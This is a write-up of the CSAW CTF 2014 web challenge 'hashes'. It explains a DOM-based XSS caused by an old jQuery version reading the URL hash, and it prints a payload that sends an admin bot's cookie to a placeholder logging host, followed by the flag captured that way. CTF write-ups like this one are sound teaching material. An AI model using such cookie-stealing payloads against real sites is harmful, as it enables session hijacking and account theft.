 # CSAW CTF 2014: hashes

**Category:** Web
**Points:** 300
**Description:**

> location, location, location
>
> Chal is very very stable. If you were scanning the site while I was doing dev work your requests are probably being dropped.
>
> <http://54.86.199.163:7878/>
>
> Written by ColdHeat

## Write-up

The linked page uses an old version of the jQuery library (v1.6.1), [which enables an XSS vulnerability when e.g. `$('#' + userContent)` is called](http://bugs.jquery.com/ticket/9521) ([CVE-2011-4969](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2011-4969)). The page also contains this script:

```js
$(window).bind( 'hashchange', function(e) {
  $('.image').hide()
  tag = window.location.hash
  $(tag).show()
});
tag = window.location.hash
$(tag).show()
```

This makes it possible to inject arbitrary JavaScript simply by changing the hash in the URL. For example, [`#<img src=/ onerror=alert(1)>`](http://54.86.199.163:7878/) displays an alert box.

The page also features a form that can be used to submit image URLs that will then be visited by a bot. Assuming the bot has special admin privileges on this website, and possibly an interesting cookie, let’s try submitting this URL:

```
http://54.86.199.163:7878/#<img src=/ onerror=location='https://your-site.example.com/log?c='+document.cookie>
```

This redirects the bot to a page under our control, passing along the cookie value. The `log` script is a simple server-side script written in your language of choice that simply writes the `c` URL parameter value to a file, or stores it in a database.

A few moments after submitting the above URL, the bot indeed visits our page, and the logger script logs the cookie:

```
win="flag{these_browser_bots_are_annoying}"
```

The flag is `these_browser_bots_are_annoying`.

## Other write-ups and resources

* <http://zoczus.blogspot.com/2014/09/csaw-ctf-web300-writeup.html>
* <http://tasteless.se/2014/09/csaw-2014-quals-hashes-web300/>
* <http://blog.squareroots.de/en/2014/09/csaw14-hashes/>
